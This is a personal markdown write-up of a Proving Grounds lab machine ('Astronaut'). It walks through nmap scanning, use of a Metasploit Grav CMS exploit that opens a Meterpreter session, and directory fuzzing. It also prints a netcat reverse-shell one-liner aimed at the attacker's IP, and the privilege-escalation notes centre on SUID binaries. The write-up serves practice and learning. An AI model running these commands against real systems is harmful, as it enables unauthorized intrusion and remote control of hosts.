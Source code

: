 ```yaml
---
date: '2024-09-28'
before : '2024-09-23'
after : '2024-10-04'
title: 'Proving Grounds : Astronaut'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Astronaut machine from Proving Grounds'
thumbnail: '../contentImages/astronaut/1.png'
---
```


## 1. Recon

Starting with normal nmap scan
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p- -T4
[sudo] password for hosan:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:00 EDT
Nmap scan report for 192.168.216.12
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.78 seconds

```
Nothing speical, only http service.
Analysing port 80 (http)
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p80 -sC -sV -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:01 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.216.12
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Linux 2.6.39 (87%), Linux 3.10 - 3.12 (87%), Linux 3.7 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: 127.0.0.1

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.28 ms 192.168.45.1
2   26.00 ms 192.168.45.254
3   26.39 ms 192.168.251.1
4   26.54 ms 192.168.216.12

```
Okay. Nothing special either.

## 2. Enumeration / Initial Foothold.

Visited `http://HOST_IP/grav-admin`:

![image](../contentImages/astronaut/1.png)

Hmm Grav. I've never heard of it.

- robots.txt
![image](../contentImages/astronaut/4.png)

Since no DNS services or hostname provided, subdomain/vhost enumeration is not possible.
While enumerating the subdirectories, quick search for CVE:

```

┌──(hosan㉿kali)-[~]
└─$ searchsploit grav
BitDefender GravityZone 5.1.5.386 - Multiple Vulnerabilities                                                                                                                                              | linux/webapps/34086.txt
Cobian Backup 11 Gravity 11.2.0.582 - 'Password' Denial of Service (PoC)                                                                                                                                  | windows/local/50790.py
Cobian Backup Gravity 11.2.0.582 - 'CobianBackup11' Unquoted Service Path                                                                                                                                 | windows/local/50791.txt
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                                                                                                                        | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                                                                                                                        | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                                                                                                                   | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                                                                                                                        | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                                                                                                                        | php/webapps/49788.rb
```
So there is a metasploit module, always worth trying it.

I basically tuned some options for exploit to fit our target, but it dropped a shell.
```

msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.216.12
RHOSTS => 192.168.216.12
msf6 exploit(linux/http/gravcms_exec) > set LHOST 192.168.45.154
LHOST => 192.168.45.154
msf6 exploit(linux/http/gravcms_exec) > set LPORT 80
LPORT => 80
msf6 exploit(linux/http/gravcms_exec) > set TARGETURI /grav-admin
TARGETURI => /grav-admin
msf6 exploit(linux/http/gravcms_exec) > exploit

[*] Started reverse TCP handler on 192.168.45.154:80
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.216.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.45.154:80 -> 192.168.216.12:51198) at 2024-09-14 13:14:03 -0400

meterpreter > shell
Process 55058 created.
Channel 0 created.
whoami
www-data
```
And the subdirectory enumeration didn't give me anything meaningful:

```

┌──(hosan㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://192.168.216.12/grav-admin/FUZZ -e .txt
________________________________________________

images                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 103ms]
cache                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 106ms]
tmp                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 31ms]
login.txt               [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 497ms]
login                   [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 495ms]
admin.txt               [Status: 403, Size: 0, Words: 1, Lines: 1, Duration: 554ms]
bin                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 68ms]
user                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 77ms]
admin                   [Status: 200, Size: 15508, Words: 4330, Lines: 139, Duration: 852ms]
logs                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 92ms]
backup                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 76ms]
home.txt                [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 288ms]
home                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 313ms]
assets                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 77ms]
.xml                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 258ms]
system                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 58ms]
forgot_password         [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 341ms]
forgot_password.txt     [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 344ms]
.rss                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 311ms]
vendor                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 66ms]
user_profile            [Status: 200, Size: 13974, Words: 3067, Lines: 190, Duration: 387ms]
activate_user           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 308ms]
activate_user.txt       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 312ms]

```

Since this shell is instable as hell, I quickly created a revshell with:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.241 443 >/tmp/f
```

## 3. PrivEsc

I found that sudo version is 1.8.31.
The first things I do during privesc is: sudo -l, kernel exploit, sudo exploit and suid, sgid binaries.

Next thing:

![image](../contentImages/astronaut/5.png)

And we got:

![image](../contentImages/astronaut/6.png)

So maybe:

![image](../contentImages/astronaut/7.png)

Done

New things learned: look into suid binaries and gtfobins more carefully, what does "it doesn't drop the privielged shell" means? Does it mean that the binary is completely useless?

- hint : think about SUID context.

---
## Source

- Proving Grounds
- Me!